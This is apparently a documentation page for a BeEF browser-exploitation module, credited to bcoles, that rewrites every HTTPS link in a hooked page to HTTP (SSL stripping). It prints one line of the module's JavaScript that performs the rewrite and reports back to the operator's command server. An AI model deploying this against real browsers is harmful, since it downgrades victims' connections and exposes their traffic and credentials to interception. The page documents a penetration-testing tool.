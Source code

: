 ## Summary

* **Objective**: Replace all HTTPS links to HTTP
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/link_rewrite_sslstrip)

## Internal Working

replace the protocol portion of all links from HTTPS to HTTP.

```js

beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinksProtocol(old_protocol, new_protocol, selector)+' '+old_protocol+' links rewritten to '+new_protocol);

```

## Feedback
